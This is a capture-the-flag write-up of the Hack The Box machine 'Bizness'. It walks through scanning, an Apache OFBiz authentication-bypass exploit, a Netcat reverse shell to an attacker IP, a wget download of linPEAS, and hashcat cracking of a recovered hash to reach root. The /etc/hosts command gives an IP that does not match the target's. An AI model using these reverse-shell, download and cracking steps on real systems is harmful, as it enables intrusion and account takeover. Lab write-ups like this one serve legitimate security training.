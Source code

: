 ```yaml
---
description: Walkthrough of the HTB machine "Bizness"
cover: >-
  https://images.unsplash.com/photo-1496442226666-8d4d0e62e6e9?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHwyfHxuZXclMjB5b3JrfGVufDB8fHx8MTcwOTM4NzQzOXww&ixlib=rb-4.0.3&q=85
coverY: 0
---
```


# 👩‍💼 Bizness (10.10.11.252)

## Scanning

Let's start with the usual Nmap scan:

```bash
nmap -T4 -A 10.10.11.252    

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-02 10:59 -03
Nmap scan report for 10.10.11.252
Host is up (0.16s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp open  ssl/http nginx 1.18.0
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.59 seconds

```

As we can see, HTTP and HTTPS are opened on the target. However, when we try to access it via a web browser, we're redirected to the domain "_bizness.htb_".

So, we need to put this domain into our /etc/hosts file:

```bash
echo '10.10.11.152 bizness.htb' | sudo tee -a /etc/hosts
```



## Enumeration

As we navigate through the website, we can start up a Directory Busting tool as well as a Subdomain Finder while we analyze the application.

There is a variety of tools we can use for Directory Busting, being: _gobuster, dirbuster, feroxbuster, FFUF_, etc.

In this case, we're going to Directory Bust using _Dirbuster_:

```bash
dirbuster -u https://bizness.htb/ -l /usr/share/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-small.txt 

# -u = url
# -l = wordlist
```

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption><p>Dirbuster found a login page</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (20).png" alt=""><figcaption><p>Login page</p></figcaption></figure>



## Exploitation

Once we found a login page, we can try default credentials or brute-forcing this if we're able. However, first, let's try searching for an exploit for this OFBiz Apache page.

After some research, I found that [CVE-2023-51467](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) relates to an Authentication Bypass Vulnerability in Apache OFBiz. This CVE exploits a Server-Side Request Forgery (SSRF) vulnerability on the web application. We can download the exploit file and run it on our target:

<figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption><p>Exploit showing that target is vulnerable</p></figcaption></figure>

Now we can run commands on the target. So we can try to get a Reverse Shell using _Netcat_:

<pre class="language-bash"><code class="lang-bash"><strong>#First, we should open a port with Netcat
</strong><strong>
</strong><strong>rlwrap nc -nvlp 7777
</strong><strong>#rlwrap is used so we can have a better tty shell.
</strong><strong>
</strong><strong>#Next, we should execute the exploit to get the Reverse Shell
</strong><strong>python3 exploit.py --url https://bizness.htb/ --cmd 'nc 10.10.14.19 7777'
</strong></code></pre>

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption><p>Exploit first try</p></figcaption></figure>

However, as we can see here, we aren't getting any responses from the server despite providing commands through Netcat.

We can fix this by adding a `-c bash` to the command:&#x20;

```bash
python3 exploit.py --url https://bizness.htb/ --cmd 'nc -c bash 10.10.14.19 7777'

# -c = specifies shell commands to execute after a connection. In this case, we're specifying we want to use bash
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption><p>Exploit Successful</p></figcaption></figure>



### User Flag

From there, we just need to grab the user flag in the "_ofbiz_" home directory:

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption><p>User flag</p></figcaption></figure>

Now, before we do anything else, let's get a full TTY Shell. The best way to do this is using this Python script:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

However, I'm going to leave you [this link](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys) so you can find other ways to get a Full TTY Shell.



## Post Exploitation / Privilege Escalation

We can start by doing some basic enumeration. After that, if we aren't able to find anything from the get-go, we can upload "_linPEAS_" to the target by using the following commands:

<pre class="language-bash"><code class="lang-bash"><strong># On the ATTACKER machine, go to the folder where you have linPEAS (if you're in Kali Linux version 2024.1, it should be in your /opt/linpeas folder:
</strong><strong>
</strong><strong>cd /opt/linpeas
</strong><strong>
</strong><strong>python3 -m http.server 80
</strong><strong>
</strong><strong>
</strong><strong># On the TARGET machine, go to the "tmp" folder, where we usually have write access and download the "linpeas.sh" file using wget:
</strong><strong>
</strong><strong>cd /tmp
</strong><strong>
</strong><strong>wget http://&#x3C;attacker ip>/linpeas.sh
</strong><strong>
</strong><strong># Next, we give the script permission to execute:
</strong><strong>
</strong><strong>chmod +x linpeas.sh
</strong><strong>
</strong><strong># Then, we run the script:
</strong><strong>
</strong><strong>./linpeas.sh
</strong></code></pre>

<figure><img src="../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption><p>Transfering linPEAS to the target machine</p></figcaption></figure>

LinPEAS shows us that there's an executable our user has write access to:

<figure><img src="../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption><p>LinPEAS shows an executable file our low level user has write access to</p></figcaption></figure>

However, we can only abuse this to create a backdoor. [This link](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services) should provide you with an explanation.

So we'll need to enumerate further.

If we continue our enumeration, we'll be able to find a password in the `c54d0.dat` file located in the `/opt/ofbiz/runtime/data/derby/ofbiz/seg0` directory:

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption><p>SALT part of the hash</p></figcaption></figure>

Now, before we crack this hash, [we'll need to decode the hash](https://www.linkedin.com/pulse/bizness-htb-walkthrough-laith-younes-laith-younes--jtqhe) using [CyberChef](https://gchq.github.io/CyberChef/#recipe=Find\_/\_Replace\(%7B'option':'Regex','string':'\_'%7D,'/',false,false,false,false\)Find\_/\_Replace\(%7B'option':'Regex','string':'-'%7D,'%2B',false,false,false,false\)From\_Base64\('A-Za-z0-9%2B/%3D',false,false\)To\_Hex\('None',0\)\&input=dVAwX1FhVkJwRFdGZW84LWRSekRxUndYUTJJ):

<figure><img src="../.gitbook/assets/image (10) (1).png" alt=""><figcaption><p>Decoded hash</p></figcaption></figure>

So we can use "_hashcat_" with the hash mode of 120 to crack it:

```bash
hashcat -m 120 '<hash>:d' /usr/share/wordlists/rockyou.txt

# -m = mode
```

<figure><img src="../.gitbook/assets/image (11) (1).png" alt=""><figcaption><p>Here's our cracked password</p></figcaption></figure>

###

### Root Flag

Now we just need to switch the user to root and grab the root flag:

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption><p>Root's Flag</p></figcaption></figure>

And this was the CTF!&#x20;

Thank you so much for taking the time to read my WriteUp!

See you in another box!
